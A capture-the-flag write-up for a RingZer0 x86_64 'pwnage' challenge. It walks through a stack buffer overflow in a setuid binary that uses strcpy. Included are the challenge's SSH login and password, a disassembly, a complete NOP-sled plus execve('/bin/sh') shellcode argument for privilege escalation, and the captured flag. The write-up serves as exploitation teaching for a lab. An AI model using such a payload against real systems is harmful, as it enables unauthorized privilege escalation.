


## Level1 Pwnage Linux x86_64
**Resource:** https://ringzer0team.com/challenges/165

## Solution
Let's start by logging in the server by typing (_$ is my terminal's prompt_):
```
$ ssh x64_user@challenges.ringzer0team.com -p10165  
```
and then type the password in: rztpwnx64
### How we can get flag content?
Here's the files in Challenges folder.
```
x64_user@rzt-x64-pwn:/Challenges$ ls -la
total 44
drwxr-xr-x  3 root   root     4096 Nov 10 20:02 .
drwxr-xr-x 22 root   root     4096 Feb 26 03:21 ..
drwxr-xr-x  2 root   root     4096 Nov 10 20:02 Flags
-r-sr-x---  1 chall1 x64_user 6958 Oct 28 06:09 level1
-r-sr-x---  1 chall2 x64_user 7344 Oct 28 06:09 level2
-r-sr-x---  1 chall3 x64_user 6958 Oct 28 06:09 level3
-r-sr-x---  1 chall4 x64_user 7344 Oct 28 06:09 level4

```
And the files in Flags folder.
```
x64_user@rzt-x64-pwn:/Challenges$ ls -la Flags/
total 24
drwxr-xr-x 2 root   root   4096 Nov 10 20:02 .
drwxr-xr-x 3 root   root   4096 Nov 10 20:02 ..
-r-------- 1 chall1 chall1   37 Nov  9 18:31 level1.flag
-r-------- 1 chall2 chall2   37 Nov  9 18:31 level2.flag
-r-------- 1 chall3 chall3   37 Nov  9 18:31 level3.flag
-r-------- 1 chall4 chall4   37 Nov  9 18:31 level4.flag
```
It's important to understand the file permissions of both level1 and level1.flag files.

> Because in level1 exec file, the set-user-id bit is set(s letter appears in 'r-s') which means that when executing level1 the effective user id (which the kernel performs its access tests based on)is set to the owner of the file.

>So we (x64_user) will gain privileges as chall1 when level1 is executed =)) we can read the flag level1.flag

### Examine executable file
```
x64_user@rzt-x64-pwn:/Challenges$ ./level1
x64_user@rzt-x64-pwn:/Challenges$ ./level1 ok
Your buffer is ok
```

So it's clear that we have to exploit buffer overflow to inject shellcode to execute one of bash family's programs.Of course if you're familiar with assembly language you can cause it to dirrectly execute commands like 'cat ./Flags/level1.flag'.I only guess so and I also have never try this.  awkward!! :smile:


Use 'objdump -d file_name'.
```
Disassembly of section main
000000000040054c <main>:
  40054c:	55                   	push   %rbp
  40054d:	48 89 e5             	mov    %rsp,%rbp
  400550:	48 81 ec 10 04 00 00 	sub    $0x410,%rsp
  400557:	89 bd fc fb ff ff    	mov    %edi,-0x404(%rbp)
  40055d:	48 89 b5 f0 fb ff ff 	mov    %rsi,-0x410(%rbp)
  400564:	83 bd fc fb ff ff 01 	cmpl   $0x1,-0x404(%rbp)
  40056b:	7e 39                	jle    4005a6 <main+0x5a>
  40056d:	48 8b 85 f0 fb ff ff 	mov    -0x410(%rbp),%rax
  400574:	48 83 c0 08          	add    $0x8,%rax
  400578:	48 8b 10             	mov    (%rax),%rdx
  40057b:	48 8d 85 00 fc ff ff 	lea    -0x400(%rbp),%rax
  400582:	48 89 d6             	mov    %rdx,%rsi
  400585:	48 89 c7             	mov    %rax,%rdi
  400588:	e8 83 fe ff ff       	callq  400410 <strcpy@plt>
  40058d:	48 8d 85 00 fc ff ff 	lea    -0x400(%rbp),%rax
  400594:	48 89 c6             	mov    %rax,%rsi
  400597:	bf 5c 06 40 00       	mov    $0x40065c,%edi
  40059c:	b8 00 00 00 00       	mov    $0x0,%eax
  4005a1:	e8 7a fe ff ff       	callq  400420 <printf@plt>
  4005a6:	b8 00 00 00 00       	mov    $0x0,%eax
  4005ab:	c9                   	leaveq
  4005ac:	c3                   	retq   
  4005ad:	90                   	nop
  4005ae:	90                   	nop
  4005af:	90                   	nop

```

It's nice. Because:
- There's no __buffer corruption detection__ (Use canary value) [__Wiki about stack canary__](https://en.wikipedia.org/wiki/Stack_buffer_overflow#Stack_canaries)
- __main__ is the only function and it only calls __strcpy__ and __printf__
- __stack randomization__ is turned off (check by gdb with 'set disable-randomization off' and see the values of %rbp serveral times at fixed checkpoints) [__Wiki about this__](https://en.wikipedia.org/wiki/Address_space_layout_randomization)

From above we could determine that:

Suppose: char *strcpy(char *dest, const char *src);


=)) Stack illustration:



So to overwrite `return value` we have to provide exactly (0x400 + 8 bytes (%rbp) + 8 bytes(return value) = ) = 1040 (Bytes) characters

 Note: 8 bytes in %rbp and return value because it compiled in mode 64 bit

### Build argument
so what should we put in return value? =)) We should put in it another address where our shellcode is at due to the fact that after main function's reaching return or exit it will jump in that address and execute instructions from that point.

Partly due to stack randomization disabled so:
* return address = address of src
* put shellcode in src

Finally: the argument has form: "[nop_sled] + [shellcode] + [something] + [address of src] "

#### Get address of src or -0x410(%rbp)

> Note: Different arguments and environment list(means how the program is executed ? in terminal or in gdb) could cause `stack address changing` although `stack randomization disabled`

```
---- Open gdb and type in commands
$ b* main + 4
$ run $(python -c "print 'A'* 1032 + 'B'*8")
$ print $rbp -0x400
---- I got $1 = (void *) 0x7f ff ff ff e2 40
```

#### Get Shellcode
I has googled and found this: [http://shell-storm.org/shellcode/]
I chose `Linux/x86-64 - Execute /bin/sh - 27 bytes by Dad`


#### Complete argument

$(python -c "print '\x90'* 400 + '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05' + 'A'*(1032 - 27 - 400) + '\x40\xe2\xff\xff\xff\x7f\x00\x00'")

#### Test

When I tested on gdb it only worked partially as the following image:

I'm stuck on why i hasn't gain previlege ??. If you has any answers please tell me @@.


And test from terminal, segmentation fault occured (see note above to see why)

=)) Plus (Minus) 400 several times to return address will work.

### Flag
`FLAG-7I4rMu7UNA8663700Dgi3a19c3892u6k`
